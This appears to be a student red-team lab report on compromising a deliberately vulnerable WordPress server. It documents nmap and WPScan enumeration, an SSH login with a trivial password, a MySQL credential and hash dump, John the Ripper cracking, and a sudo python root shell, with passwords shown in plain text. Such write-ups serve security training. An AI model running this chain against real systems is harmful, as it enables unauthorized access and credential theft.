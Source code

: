 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:
###### **Command Used:**`$ nmap -sV 192.168.1.110`
![nmap results](Images/nmap_scan.PNG)

This scan identifies the services below as potential points of entry:
##### Target 1:

|   PORT  	| STATE 	|   SERVICE   	|                    VERSION                   	|
|:-------:	|:-----:	|:-----------:	|:--------------------------------------------:	|
|  22/tcp 	|  OPEN 	|     ssh     	| OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) 	|
| 80/http 	|  OPEN 	|     http    	|        Apache httpd 2.4.10 ((Debian))        	|
| 111/tcp 	|  OPEN 	|   rpcbind   	|               2-4 (RPC #100000)              	|
| 139/tcp 	|  OPEN 	| netbios-ssn 	|   Samba smbd 3.X-4.X (workgroup: WORKGROUP)  	|
| 445/tcp 	|  OPEN 	| netbios-ssn 	|   Samba smbd 3.X-4.X (workgroup: WORKGROUP)  	|


The following vulnerabilities were identified on each target:
##### Target 1:

|  VULNERABILITY 	| CVE NUMBER 	|   SEVERITY     	|    VULNERABILITY DESCRIPTION                   	|
|:-------:	|:-----:	|:-----------:	|:--------------------------------------------:	|
|  Username Enumeration	|CVE-2017-5487  |     Medium (CVSS Score: 5.3)     	|  Allows for unauthorized actors to access sensitive information without proper authorization.	|
| Weak Password Requirements 	|  CWE-521 	|     Medium-High    | Users lack minimal password requirements which increase the risk of attackers gaining access to accounts within the system.        	|
| Weak Password Encryptions (Salting) 	|     CVE-2020-5229	|   Severe (CVSS Score: 8.1   	|   Using weak or outdated hashing algorithm for storing passwords.            	|
| Exploitation for Privilege Escalation 	|  CVE-2006-0151 | High-Severe	|   The misconfiguration of user priveleages that leads to local users gaining higher privileges by running a Python script.  	|



_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
##### Target 1
The first sensitive document,`flag1.txt`, was found by searching through the page source information of the Service page of the website `http://192.168.1.110/service.html`.
#
![Flag1:Service Page of Website](Images/flag1_website_servicepage.PNG)

Next, the Red Team enumerated the users within the Wordpress site with the WPScan Wordpress Security Scanner.
**Command:** `wpscan --url http://192.168.1.110/wordpress --enumerate u`
#
![WPScan Command](Images/wpscan_cmd.PNG)

This command listed two users within the Wordpress site: `michael` and `steven`.
![Users Found](Images/wpscan_users.PNG)

With this information, Michael's account was able to be accessed via SSH due to the simplicity of his password. His password was `michael`.
**Commands:** `ssh michael@192.168.1.110`;`yes`;`michael`

![Access to Michael's Account](Images/ssh_michael.PNG)

Once logged in as Michael, the second sensitive document,`flag2.txt`, was exposed within the /var/www/ directory.
![Flag2](Images/Flag_2.PNG)

The document flag1.txt could be access again by navigating to the /var/www/html directory.
![Flag1:Michael's Account](Images/flag_1.PNG)

From this point, the Red Team navigated to the `wp_config.php` file to obtain the MYSQL database password.
#
![Path to wp_config.php](Images/path_wpconfig.PNG) ![MySQL Database Credentials](Images/MySQL_Creds.PNG)

With the MySQL database credentials, the Red Team was able to extract the password hashes of both Michael and Steven using the following commands:
`mysql -h localhost -u root -pR@v3nSecurity`
#
![MySQL Login](Images/mysql_login)

`show databases;`;`use wordpress;`;`show tables;`;`SELECT * FROM wp_users;`OR `SELECT ID, user_login, userpass FROM wp_users`
#
![Hashes Only](Images/hashes_only.PNG)
#
![Hashes Only](Images/hashes_verbose.PNG)
#
The hashes were then extracted from MySQL to .txt file located in the /tmp directory.
**Command:**`SELECT * FROM wp_users INTO OUTFILE '/tmp/wp_hashes.txt';`
#
![Hashes Extracted](Images/hashes_to_outfile.PNG)

Before exiting MySQL, two sensitive pieces of material,`flag3` and `flag4` were found within the wp_posts table.
**Command:**SELECT * FROM wp_posts;
#
![Flag3 and Flag4](Images/flag3_flag4.PNG)

After exiting MySQL, the program John the Ripper (JtR) was then used to decipher the password hash for Steven.
**Command:**`john wp_hashes.txt` OR `john wp_hashes.txt --wordlist=/usr/share/wordlist/rockyou.txt`
#
![JtR](Images/JtR.PNG)
#
![Steven's Password](Images/steven_pwd.PNG)
#
With Steven's credentials, the Red Team was able to access his account and check for his current privelages.
**Commands:**`ssh steven@192.168.1.110`;`yes`;`pink84`;`sudo -l`
#
![Steven's Initial Privelages](Images/steven_initial_privelages.PNG)

Steven's current privelages allowed him to run python scripts. By using the following command, the Red Team was able to escalate his privelages to root.
**Command:**`sudo python -c 'import pty;pty.spawn("/bin/bash")'`;`sudo -l`
#
![Steven's Root Privelages](Images/steven_escalated_privelages.PNG)

By increasing Steven's privelages to root, this allowed for the Red Team to freely move through the website and access or change any file desired. The final sensitive document,`flag4.txt`, was discovered within the root directory.
#
![Flag4.txt](Images/flag4.PNG)
steven_escalated_privelages